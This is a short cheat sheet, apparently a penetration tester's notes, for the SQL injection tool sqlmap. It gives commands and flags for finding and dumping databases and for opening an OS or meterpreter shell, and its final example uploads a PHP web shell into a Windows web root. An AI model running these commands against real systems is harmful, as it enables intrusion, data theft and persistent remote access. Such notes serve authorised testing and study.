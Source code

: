 # SQLmap

## Usage

```bash
# Default
sqlmap -u http://10.10.10.150/index.php?id=1

# Using a request file (Burp)
sqlmap -r file.req
```
### Syntax

| Argument | Description |
| --- | --- |
| --dbs | Discover database |
| --dump | Dump database |
| --tables | Find tables |
| --force-ssl | If using 443 https |
| --delay=1 | Adds delay in the requests |
| -D | Select database |
| -T | Select table |
| -C | Select Column |
| --batch | Dont prompt - Run as default |
| --os-shell | Interactive shell |
| --os-pwn | OOB shell, meterpreter |

## Examples

```bash
# When you know the database
sqlmap -r portal.req --dbms=mysql --dump

# Upload a file
sqlmap -r login.req --file-write=/home/kali/shell.php --file-dest=C:/inetpub/wwwroot/shell.php
```